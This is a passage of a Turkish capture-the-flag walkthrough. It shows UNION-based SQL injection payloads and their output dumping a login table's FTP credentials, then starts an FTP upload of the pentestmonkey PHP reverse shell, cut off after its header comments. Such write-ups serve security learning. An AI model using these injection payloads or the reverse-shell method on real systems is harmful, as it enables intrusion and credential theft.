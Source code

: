 7. `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access' and column_name not in('password')"}"` ve `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access' and column_name not in('password', 'username')"}"` ve `"{"lastviewed"=="'Spain' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'access' and column_name not in('password', 'username', 'service')"}"` sorguları denenerek elde edilen sıralı sonuçlar sayesinde hızlı bir şekilde yazılmıştır. Artık tabloyu dump etmeye başlayabiliriz.
8. `"{"lastviewed"=="'Spain' UNION SELECT username from access"}"`
```
We couldn't find any information for globus.
```
9. `"{"lastviewed"=="'Spain' UNION SELECT password from access"}"`
```
We couldn't find any information for AroundTheWorld.
```
kullanıcı adı:globus ve şifresi:AroundTheWorld'tür.
10. Kontrollü olmak için elde ettiğimiz service column'nuna da baktıktan sonra sonucun ftp olduğunu görebiliyoruz.
 `"{"lastviewed"=="'Spain' UNION SELECT service from access"}"`
```
We couldn't find any information for ftp.
```
## 2 Sisteme Sızma
Artık elimizde ftp hesabı var ve sisteme reverse shell kodu upload ederek bağlanabiliriz. kodun aynısını /dosyalar klasöründede de bulabilirsiniz.Bu dosyayı ftp ile sisteme gödnerdikten soran izin olarak 777 vermeyi unutmayınız.
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
```